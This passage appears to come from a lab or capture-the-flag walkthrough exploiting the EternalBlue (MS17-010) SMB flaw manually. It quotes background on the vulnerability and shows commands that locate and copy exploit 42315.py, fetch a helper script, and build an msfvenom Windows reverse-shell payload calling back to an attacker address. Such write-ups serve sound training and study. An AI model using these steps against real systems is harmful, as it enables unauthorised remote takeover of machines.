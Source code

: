 Where:
- `smb-vuln*` is a wildcard notation useful to specify that we want to run all the scripts with the name starting with `smb-vuln`

The target is vulnerable to **MS17-010**:

>EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. This vulnerability is denoted by entry CVE-2017-0144[15][16] in the Common Vulnerabilities and Exposures (CVE) catalog. The vulnerability exists because the SMB version 1 (SMBv1) server in various versions of Microsoft Windows mishandles specially crafted packets from remote attackers, allowing them to execute arbitrary code on the target computer.[17]

>The NSA did not alert Microsoft about the vulnerabilities, and held on to it for more than five years before the breach forced its hand. The agency then warned Microsoft after learning about EternalBlue’s possible theft, allowing the company to prepare a software patch issued in March 2017,[18] after delaying its regular release of security patches in February 2017.

&nbsp;

# Exploitation

There is a well known `Metasploit` module available for this exploit, but we will do it manually.
Let's check `searchsploit` and search for:

```
searchsploit eternalblue
```

We can find an interesting python script for `Win 7/8.1/2008` OS versions:

```
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                               | windows/remote/42315.py
```

Let's download it on our machine:

```
searchsploit -m windows/remote/42315.py
```

**Tip**: always read the exploit code to understand what it is doing.

In order to work, the script:

1. needs a `mysmb.py` file (easy to find)
2. needs an exploit to launch, we will create a **msfvenom reverse shell**
3. needs a  valid `user/pass` couple -> We know that `guest` user is allowed

So, for point **1**, we can download the `mysmb.py` file:

```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

For point **2**, we will create a **reverse shell** with `msfvenom` in the current directory:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f exe > ./shell.exe
```

